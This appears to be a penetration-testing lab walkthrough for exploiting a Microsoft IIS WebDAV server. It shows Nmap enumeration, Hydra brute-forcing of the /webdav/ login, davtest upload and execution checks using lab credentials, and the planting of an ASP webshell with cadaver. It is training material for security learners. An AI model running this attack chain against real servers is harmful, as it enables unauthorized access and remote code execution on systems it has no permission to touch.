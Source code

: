 # Exploiting Microsoft IIS WebDAV

## Tools used:

[Davtest](https://code.google.com/archive/p/davtest/):

Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

[cadaver](https://github.com/grimneko/cadaver):

Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

***

First of all, let's perform a basic Nmap scan:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap -sV -sC -p80 10.5.27.26
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-30 15:04 IST
Nmap scan report for 10.5.27.26
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
<strong>80/tcp open  http    Microsoft IIS httpd 10.0
</strong>| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND LOCK UNLOCK PROPPATCH MKCOL PUT DELETE MOVE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to /Default.aspx
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
|   Server Date: Sat, 30 Dec 2023 09:35:07 GMT
|_  Server Type: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
</code></pre>

This doesn't give us proper information for webDav, let try to run the enum script:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap -sV -sC -p80 10.5.27.26 --script=http-enum
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-30 15:08 IST
Nmap scan report for 10.5.27.26
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
<strong>|_  /webdav/: Potentially interesting folder (401 Unauthorized)
</strong>|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
</code></pre>

We found a wedav directory which gives us 401, which means we need authentication to access the directory. We can brute force the login credentials using hydra:

```sh
root@attackdefense:~# hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.5.27.26 http-get /webdav/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-30 15:14:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 400 login tries (l:8/p:50), ~25 tries per task
[DATA] attacking http-get://10.5.27.26:80/webdav/
1 of 1 target completed, 0 valid password found
```

This was just an example that how to perform brute force in this case.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

and this is how it looks.

So now we know that Webdav allows us to download or upload the files within this directory. So we can use a tool for this that already comes with kali Linux:

```sh
root@attackdefense:~# davtest -url http://10.5.27.26/webdav
********************************************************
 Testing DAV connection
OPEN		FAIL:	http://10.5.27.26/webdav	Unauthorized. Basic realm="10.5.27.26"
```

This was the basic usage of davtest. to connect to webdav, we need to give it a valid credentials like this:

```sh
root@attackdefense:~# davtest -url http://10.5.27.26/webdav -auth bob:password_123321
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.5.27.26/webdav
********************************************************
NOTE	Random string for this session: zQDBIXMfsh
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh
********************************************************
 Sending test files
PUT	txt	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.txt
PUT	jsp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.jsp
PUT	asp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.asp
PUT	cgi	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.cgi
PUT	php	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.php
PUT	html	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.html
PUT	jhtml	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.jhtml
PUT	pl	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.pl
PUT	shtml	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.shtml
PUT	aspx	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.aspx
PUT	cfm	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.cfm
********************************************************
 Checking for test file execution
EXEC	txt	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.txt
EXEC	jsp	FAIL
EXEC	asp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.asp
.
.
```

The connection is successful.

To upload, download or modify files, we can now use the cadaver utility:

```sh
root@attackdefense:~# cadaver http://10.5.27.26/webdav
Authentication required for 10.5.27.26 on server `10.5.27.26':
Username: bob
Password: 
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
```

Here we upload an ASP webshell.

> Webshells comes pre-packages in kali linux at the following path
>
> ```sh
> root@attackdefense:~# ls /usr/share/webshells/
> asp  aspx  cfm	jsp  laudanum  perl  php  seclists
> ```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Our shell is working correctly.
